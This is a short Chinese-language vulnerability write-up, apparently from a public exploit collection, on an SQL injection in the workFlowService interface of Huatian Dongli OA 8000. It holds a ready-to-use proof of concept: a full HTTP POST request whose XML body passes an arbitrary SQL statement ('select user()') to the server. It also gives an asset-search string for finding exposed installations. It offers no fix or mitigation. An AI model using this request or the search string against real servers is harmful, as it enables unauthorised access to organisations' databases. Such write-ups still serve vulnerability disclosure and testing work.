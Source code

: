 # 华天动力OA 8000版 workFlowService SQL注入漏洞

## 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>华天动力OA 8000版 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="华天动力-OA8000"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

发送请求包验证漏洞

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)

